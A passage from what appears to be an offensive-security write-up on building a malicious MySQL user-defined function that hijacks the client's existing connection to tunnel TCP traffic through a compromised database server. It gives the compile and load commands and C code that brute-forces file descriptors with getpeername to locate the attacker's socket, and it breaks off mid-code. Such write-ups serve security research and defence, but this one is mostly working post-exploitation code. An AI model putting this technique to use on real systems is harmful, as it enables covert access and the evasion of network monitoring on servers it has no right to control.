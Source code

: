 ```c
{
	// Magic & Unicorns
	return 1;
}

char do_carracha_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
    return(0);
}
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Just `gcc -shared -o carracha.so carracha.c -fPIC`, move the file to the plugin dir and load the function inside MySQL (`create function do_carracha returns integer soname 'carracha.so';`). Let's move to the interesting things!


## In the hunt of the sacred socket
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
As we said before, our main purpose with this UDF is to reuse the connection made by the client so we can proxy all our TCP traffic through a legitimate connection. If we know what file descriptor is the one used by our connection, we can reuse it easily. Unfortunally, we can not know directly what file descriptor is being used by the connection, so we need to bruteforce them until we find the correct. This is a really old (I mean really really really old) technique used in exploiting that is well described [in this article from NetSec](https://nets.ec/Shellcode/Socket-reuse). 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
First we need to know what is the range of file descriptors that we need to bruteforce. To do that, we can for example open a new socket and save the file descriptor returned, so this number will be our top limit:

```c
int do_carracha(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	...
	int fd;

	fd = socket(AF_UNIX, SOCK_STREAM, 0);
	close(fd);
	...
}
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Once we know the range to be bruteforced we are going to use [getpeername](http://man7.org/linux/man-pages/man2/getpeername.2.html) to determine if the file descriptor refers to a valid socket and if the address of the peer connected to the socket is ours.

```c
...
	for (i = 3; i < fd; i++) {
		ret = getpeername(i, (struct sockaddr *)&client_addr, &addr_size);
			if (ret == 0) {
				char ip[INET6_ADDRSTRLEN];
			
				if (client_addr.ss_family == AF_INET) {
					struct sockaddr_in *s = (struct sockaddr_in *)&client_addr;
					inet_ntop(AF_INET, &s->sin_addr, ip, sizeof(ip));
				}
				else if (client_addr.ss_family == AF_INET6) {
					struct sockaddr_in6 *s = (struct sockaddr_in6 *)&client_addr;
					inet_ntop(AF_INET6, &s->sin6_addr, ip, sizeof(ip));
				}

				if (strstr(ip, "X.X.X.X")) { // Hardcoded because it is a PoC. We should take this value from function argument (do_carracha('ip'))
```